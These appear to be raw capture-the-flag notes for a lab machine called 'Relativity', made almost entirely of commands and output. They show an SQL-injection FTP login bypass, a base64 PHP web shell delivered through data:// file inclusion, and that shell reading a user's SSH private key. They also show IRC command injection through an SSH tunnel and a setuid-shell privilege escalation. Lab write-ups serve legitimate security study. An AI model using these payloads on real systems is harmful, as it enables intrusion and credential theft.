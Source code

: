 https://twitter.com/trbughunters/status/1279768631845494787
https://book.hacktricks.xyz/pentesting-web/file-inclusion


└─$ sudo nmap -p- -sV 172.16.227.129      
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-24 18:43 CET
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 0.10% done
Nmap scan report for 172.16.227.129
Host is up (0.00041s latency).
Not shown: 65532 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.2.8 - 1.2.9
22/tcp open  ssh     OpenSSH 5.9 (protocol 2.0)
80/tcp open  http    Apache httpd 2.2.23 ((Fedora))
MAC Address: 00:0C:29:6A:3B:E0 (VMware)
Service Info: Host: Relativity; OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 116.09 seconds


USER %') and 1=1 union select 1,1,uid,gid,homedir,shell from users; --
username: %') and 1=2 union select 1,1,uid,gid,homedir,shell from users; # 
%') and 1=2 union select 1,1,uid,gid,homedir,shell from users; # 

https://www.securityfocus.com/bid/33722/exploit

└─$ ftp 172.16.227.129
Connected to 172.16.227.129.
220 Welcome to Relativity FTP (mod_sql)
Name (172.16.227.129:kali): %') and 1=2 union select 1,1,uid,gid,homedir,shell from users; # 
331 Password required for %').
Password:1
230 User %') and 1=2 union select 1,1,uid,gid,homedir,shell from users; # logged in.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls 
200 PORT command successful
150 Opening ASCII mode data connection for file list
drwxr-xr-x   3 root     root         4096 Mar  5  2013 0f756638e0737f4a0de1c53bf8937a08
-rw-r--r--   1 root     root       235423 Mar  5  2013 artwork.jpg
-rw-r--r--   1 root     root          130 Mar  5  2013 index.html
226 Transfer complete.
ftp> 



http://172.16.227.129/0f756638e0737f4a0de1c53bf8937a08/index.php?page=artwork.php
data://text/plain,<?php phpinfo(); ?>
PD9waHAgcGhwaW5mbygpOyA/Pg==
data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==
data://text/plain;base64,PD9waHAgZWNobyAiYm9uam91ciEiOyA/Pg==
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=



view-source:http://172.16.227.129/0f756638e0737f4a0de1c53bf8937a08/index.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7IGVjaG8gImJvbmpvdXIiOyA/Pg==&cmd=cat%20/home/mauk/.ssh/id_rsa


└─$ 
[mauk@Relativity ~]$ id
uid=1001(mauk) gid=1001(mauk) groups=1001(mauk)


mauk@Relativity ~]$ netstat -nlp
(No info could be read for "-p": geteuid()=1001 but you should be root.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:6667          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:21              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 0.0.0.0:50444           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -                   
udp6       0      0 :::44503                :::*           


[mauk@Relativity ~]$ cat .bash_history 
ssh -f root@192.168.144.228 -R 6667:127.0.0.1:6667 -N
su -
exit
su -
[mauk@Relativity ~]$ 


ssh kali@172.16.227.1 -R 9876:brainpan2:2222
ssh -f kali@172.16.227.1 -R 6667:127.0.0.1:6667 -N
root@kali:~# ssh -L 4444:127.0.0.1:6667 mauk@192.168.80.128 



[mauk@Relativity tmp]$ cat a
total 28
drwx------. 3 jetta jetta 4096 Jul  9  2013 .
drwxr-xr-x. 4 root  root  4096 Feb 25  2013 ..
drwxr-xr-x  2 root  root  4096 Jul  9  2013 auth_server
-rw-------. 1 jetta jetta    1 Mar  4  2013 .bash_history
-rw-r--r--. 1 jetta jetta   18 Apr 23  2012 .bash_logout
-rw-r--r--. 1 jetta jetta  193 Apr 23  2012 .bash_profile
-rw-r--r--. 1 jetta jetta  124 Apr 23  2012 .bashrc

└─$ echo "AB;chmod o+x /tmp/sh" | nc 127.0.0.1 6667

[mauk@Relativity tmp]$ ./sh -p

sh-4.2$ id
uid=1001(mauk) gid=1001(mauk) euid=1002(jetta) groups=1002(jetta),1001(mauk)